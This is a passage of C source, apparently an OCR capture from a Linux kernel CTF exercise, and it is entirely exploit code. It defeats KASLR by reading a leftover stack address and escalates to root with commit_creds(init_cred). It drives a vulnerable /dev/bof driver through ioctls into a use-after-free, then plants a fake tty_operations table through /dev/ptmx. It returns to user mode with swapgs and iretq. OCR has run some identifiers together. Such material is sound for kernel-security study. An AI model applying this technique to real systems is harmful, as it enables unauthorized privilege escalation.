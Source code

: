 ```
"mov user_rsp, rsp;"
"pushf;"
"pop user_rflags;"
);
puts("[*]status has been saved.");
}

size_t kernel_offset;

voidget_root(){
// 通过栈上残留地址来绕过 KASLR
    __asm__(
"mov rbx, [rsp + 8];"
"mov kernel_offset, rbx;"
);
    kernel_offset -=0xffffffff814f604f;
    commit_creds =(void*)((size_t) commit_creds + kernel_offset);
    init_cred =(void*)((size_t) init_cred + kernel_offset);
    commit_creds(init_cred);
    __asm__(
"swapgs;"
"push user_ss;"
"push user_rsp;"
"push user_rflags;"
"push user_cs;"
"push user_rip;"
"iretq;"
);
}

struct param {
size_t len;// 内容长度
char*buf;// 用户态缓冲区地址
longlong idx;// 表示 ptr 数组的 索引
};

intmain(int argc, char const *argv[])
{
    save_status();

size_t fake_tty_ops[]={
0,0,0,0,0,0,0,0,0,0,0,0,
        get_root
};

// len buf idx
struct param p ={0x2e0,malloc(0x2e0),0};
printf("[*]p_addr==>%p\n",&p);

int bof_fd = open("/dev/bof", O_RDWR);

    p.len =0x2e0;
    ioctl(bof_fd, BOF_MALLOC,&p);
memset(p.buf,'\xff',0x2e0);
    ioctl(bof_fd, BOF_EDIT,&p);
    ioctl(bof_fd, BOF_FREE,&p);

int ptmx_fd = open("/dev/ptmx", O_RDWR);

    p.len =0x20;
    ioctl(bof_fd, BOF_READ,&p);
printf("[*]magic_code==> %p -- %p\n",&p.buf[0],*(size_t*)&p.buf[0]);
printf("[*]tty____ops==> %p -- %p\n",&p.buf[0x18],*(size_t*)&p.buf[0x18]);
```